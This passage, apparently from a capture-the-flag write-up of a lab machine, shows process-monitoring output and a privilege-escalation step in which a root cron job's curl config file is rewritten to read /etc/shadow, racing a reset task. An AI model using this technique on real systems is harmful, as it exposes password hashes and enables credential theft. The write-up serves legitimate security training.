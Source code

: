 ```
        <style>
...
```


User root `UID=0` is running curl.
```
floris@curling:~$ ./pspy64s
...
2022/10/31 03:47:11 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity 
2022/10/31 03:48:01 CMD: UID=0    PID=11321  | /usr/sbin/CRON -f 
2022/10/31 03:48:01 CMD: UID=0    PID=11320  | /usr/sbin/CRON -f 
2022/10/31 03:48:01 CMD: UID=0    PID=11324  | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2022/10/31 03:48:01 CMD: UID=0    PID=11323  | /usr/sbin/CRON -f 
2022/10/31 03:48:01 CMD: UID=0    PID=11322  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2022/10/31 03:48:01 CMD: UID=0    PID=11325  | sleep 1 
```




Change `input` to read local file `/etc/shadow`.

```
floris@curling:~/admin-area$ cat input 
url = "file:///etc/shadow"
```

But it returned to original one before generating the `report` file with the shadow content.

```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

If we run `pspy` again, but also asking to monitor the `admin-area` folder, we see that there is also a task changing the value of `input` back to the original one.

```
$ ./pspy64s -d /home/floris/admin-area/
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
...
2022/10/31 04:59:01 CMD: UID=0    PID=12157  | sleep 1 
2022/10/31 05:00:01 CMD: UID=0    PID=12164  | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2022/10/31 05:00:01 CMD: UID=0    PID=12163  | sleep 1 
2022/10/31 05:00:01 CMD: UID=0    PID=12162  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2022/10/31 05:00:01 CMD: UID=0    PID=12161  | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input 
2022/10/31 05:00:01 CMD: UID=0    PID=12160  | /usr/sbin/CRON -f 
```

However, if we change `input` right after its change, we can get the *shadow* content on `report`'s file.
